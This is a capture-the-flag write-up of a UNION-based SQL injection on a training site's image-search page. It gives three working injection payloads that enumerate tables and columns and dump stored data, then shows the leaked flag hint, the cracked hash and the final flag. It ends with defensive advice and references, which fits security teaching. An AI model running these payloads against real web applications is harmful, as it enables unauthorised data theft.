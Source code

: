 # SQL injection

## Found on
```
<ip>/?page=searchimg
```

## How to exploit

As with the previous vulnribility the nmap tool informed of a possible Cross Site Request Forgeries (CSRF) vulnribility on this page.

What we found was an SQL Injection vulnribility.

Using a UNION attack we can attempt to get more information than we should be able to.

1. To get table names:
```
3 UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema = database()
```

2. To get user table column names:
```
3 UNION SELECT column_name, null FROM information_schema.columns WHERE table_schema = database()
```

3. To get all data of users:
```
3 UNION SELECT title, comment FROM list_images
```

The last injection reveals this:
```
ID: 3 UNION SELECT title, comment FROM list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```

With these instructions getting the flag was easy.
1. Decript the hash -> albatroz
2. Encrypt the lowercase phrase with Sh256 -> f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

[MD5 decryption utility](https://hashtoolkit.com/decrypt-md5-hash)

## A brief explination of the SQL attack

When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database. This results in an SQL injection UNION attack.

The UNION keyword lets you execute one or more additional SELECT queries and append the results to the original query.

## How to protect against

* Use prepared statements or strerilize the input from the form.
* Using layered security minimizes the risk of vulnribilities being exposed.
* Using [Parameterized Queries in SQL](https://use-the-index-luke.com/sql/where-clause/bind-parameters)

## Resources:
* <https://owasp.org/www-community/attacks/SQL_Injection>
* <https://portswigger.net/web-security/sql-injection/union-attacks>
* <https://dev.mysql.com/doc/refman/8.0/en/information-schema.html>
* <https://www.softwaretestinghelp.com/sql-injection-how-to-test-application-for-sql-injection-attacks/>